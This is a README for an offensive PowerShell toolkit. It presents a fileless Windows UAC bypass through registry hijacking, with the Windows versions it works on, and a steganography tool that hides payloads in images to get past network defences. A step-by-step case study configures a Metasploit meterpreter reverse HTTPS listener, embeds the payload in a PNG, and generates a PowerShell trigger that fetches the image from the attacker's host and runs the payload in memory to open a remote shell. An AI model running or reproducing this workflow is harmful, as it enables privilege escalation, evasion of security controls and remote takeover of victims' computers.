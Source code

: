 # Offensive-PowerShell
Collection of powershell scripts to be used during an offensive operation.   

## Set-FilelessBypassUac
Bypass the Windows User Account Control (UAC) with fileless methods.

Based on “Fileless” UAC Bypass Using eventvwr.exe and Registry Hijacking technique from Matt Nelson (@enigma0x3).
https://enigma0x3.net/2016/08/15/fileless-uac-bypass-using-eventvwr-exe-and-registry-hijacking/

### METHODS:

* mscfile - Matt Nelson (@enigma0x3) method using CompMgmtLauncher.exe to replace eventvwr.exe.

    Working on:
    *  Microsoft Windows 7;
    *  Microsoft Windows 8;
    *  Microsoft Windows 8.1;
    *  Microsoft Windows 10 (UNTIL the build 15025.rs2)
    *  Microsoft Windows 2008;
    *  Microsoft Windows 2008 R2;
    *  Microsoft Windows 2016.

* ms-settings - NEW method using ms-settings registry key with DelegateExecute and fodhelper.exe.

    Working on:
    *  Microsoft Windows 10 (tested with successful until the build 15031.rs2)
    *  Microsoft Windows 2016.

## Set-PowerStego
Set-PowerStego allows text or binary files (including payloads developed in powershell and/or PE files) to be inserted into a selected image (BMP or PNG) using the Least Significant Bits (LSB) technique.
It will also be possible to recover the inserted file and in some cases execute it directly in the memory.(Does not touch the disk).

With Set-PowerStego you can bypass Layer 7 security solutions.

###Step-to-Step
  1 - Hide a PAYLOAD inside of a image (with a good resolution).
  2 - Store the image on a Webserver that target have access.
  3 - Run the trigger (powershell command line) on the target.
    * The target will download the image to the memory.
    * The payload will be extract on the memory.
    * Powershell payloads will be executed on the memory and PE payloads will be copied to the disk and executed.
  4 - Receive your shell.

### CASE STUDY - Hiding a meterpreter payload inside of image.  
  1 - Open the msfconsole.
  msfconsole

  2 - Select and configure the web_delivery exploit.
  use exploit/multi/script/web_delivery  
  set windows/meterpreter/reverse_https
  set target 2
  set srvport 80
  set uripath /report
  set LHOST <IPADDRESS>
  set LPORT 443
  exploit

  3 - From your Windows machine download the powershell script from web_delivery.
  iwr http://IPFROMMETASPLOITHOST/report -OutFile report.txt

  4 - Open the powershell and import the Set-Powerstego.ps1.
  Import-Module Set-Powerstego.ps1

  5 - Select and analize the properties from a image (BMP or PNG) with a good resolution.
  Set-PowerStego -Method Analyze -ImageSource File -ImageSourcePath <image.png>

  6 - Hide de payload inside the image.
  Set-PowerStego -Method Hide -ImageSource File -ImageSourcePath myimage.png -ImageDestinationPath myimagewithpayload.png -PayloadSource Text -PayloadPath script.ps1

  7 - Copy the image to the METASPLOIT host and start a webserver to be possible access the image.
  cd imagefolder
  pythom -m SimpleHTTPServer 8080

  8 - From the Windows workstation extract the payload to the disk.
  Set-PowerStego -Method UnHide -ImageSource URL -ImageSourcePath http://<IPFROMMETASPLOITHOST:8080>/myimage.png -PayloadSource Text -PayloadPath report2

  Open the file report2 and compare with the file report.  

  9 - Generate a command line to execute the payload on the target.
  Set-PowerStego -Method GeneratePayload -ImageSource URL -ImageSourcePath http://<IPFROMMETASPLOITHOST:8080>/myimage.png -PayloadSource Text -PayloadPath myscript.txt

  Execute the content from the file myscript.txt on any Windows workstion with powershell and access to the metasploit host.
  After the execution, it will be download the image to the memory from the target, the payload extration and execution on the memory, and you will receive a meterpreter shell on the Metasploit host.
